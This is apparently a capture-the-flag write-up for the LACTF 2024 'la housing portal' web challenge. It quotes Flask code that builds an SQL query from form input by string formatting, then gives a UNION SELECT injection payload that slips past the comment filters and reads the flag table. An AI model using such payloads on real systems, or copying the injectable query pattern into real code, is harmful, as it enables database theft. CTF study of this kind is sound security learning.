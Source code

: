 ```yaml
---
title: la housing portal
date: 2024-02-19 08:02
tags: 
- web
- sqli
- author-hartmannsyg
categories: LACTF 2024
---
```


solved by {% person hartmannsyg %}

We see an SQL injection vulnerability here:

{% ccb caption:app.py gutter1:10-41 lang:py highlight:12,30 %}
@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")

    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
{% endccb %}

So we can try a UNION SELECT sql injection
{% ccb html:true %}
<span class="keyword">select</span> <span class="operator">*</span> <span class="keyword">from</span> users <span class="keyword">where</span> guests <span class="operator">=</span> <span class="string">'</span><span class='code-segment-highlight'><span class="string">'</span><span class="keyword">UNION</span> <span class="keyword">SELECT</span> "a",<span class="operator">*</span>,"a","a","a","a"<span class="keyword">FROM</span> flag <span class="keyword">WHERE</span> <span class="string">''</span><span class="operator">=</span><span class="string">'</span></span><span class="string">'</span> LIMIT <span class="number">25</span>;{% endccb %}
